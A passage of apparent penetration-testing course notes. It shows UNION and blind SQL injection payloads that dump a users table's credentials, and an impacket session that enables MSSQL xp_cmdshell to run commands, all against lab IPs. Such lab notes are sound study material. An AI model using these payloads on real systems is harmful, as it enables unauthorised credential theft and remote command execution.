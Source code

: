 5. Retrieve the columns table from the information_schema database belonging to the current database
     a. Input: ' union select null, table_name, column_name, table_schema, null from information_schema.columns where table_schema=database() -- // Output: three columns contain the table name, the column name, and the current database

6. Craft a new query to dump the users table.
     a. Input: ' UNION SELECT null, username, password, description, null FROM users -- // Output: Output of the username, password, and description in the web application table.
 
######  10.2.3. Blind SQL Injections

1. The output used to infer results comes from the web application, not the database itself.
2. Test 1
```
Link - http://192.168.50.16/blindsqli.php?user=offsec' AND 1=1 -- //

Output - Shows all details hashes

```
3. Test 2
```
Link - http://192.168.50.16/blindsqli.php?user=offsec' AND IF (1=1, sleep(3),'false') -- //

Output - Take 3 seconds and give result with true or false parameter. 
```

*Lab Exercise*
All answers are located in theory. 

#### 10.3. Manual and Automated Code Execution

######  10.3.1. Manual Code Execution

1. Enabling xp_cmdshell feature 
```
kali@kali:~$ impacket-mssqlclient Administrator:Lab123@192.168.50.18 -windows-auth # MSSQL connection
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation
...
SQL> EXECUTE sp_configure 'show advanced options', 1; # Enable show advanced options 
[*] INFO(SQL01\SQLEXPRESS): Line 185: Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install.
SQL> RECONFIGURE; # Running configuration 
SQL> EXECUTE sp_configure 'xp_cmdshell', 1; # Enable xp_cmdshell 
[*] INFO(SQL01\SQLEXPRESS): Line 185: Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.
SQL> RECONFIGURE; # Running configuration 
```

2. Executing commands visa xp_cmdshell
```
SQL> EXECUTE xp_cmdshell 'whoami';
output

---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

nt service\mssql$sqlexpress

NULL
```

